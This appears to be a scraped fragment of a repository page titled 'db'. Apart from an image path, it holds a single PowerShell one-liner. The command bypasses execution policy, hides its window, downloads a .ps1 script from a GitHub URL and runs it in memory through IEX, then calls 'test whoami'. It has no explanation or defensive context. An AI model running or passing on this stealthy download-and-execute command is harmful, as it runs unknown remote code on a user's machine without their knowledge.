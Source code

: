 # db
powershell -ep bypass -w hidden -c "IEX (New-Object Net.WebClient).DownloadString('https://github.com/scorpion2017/db/15.ps1'); test whoami"
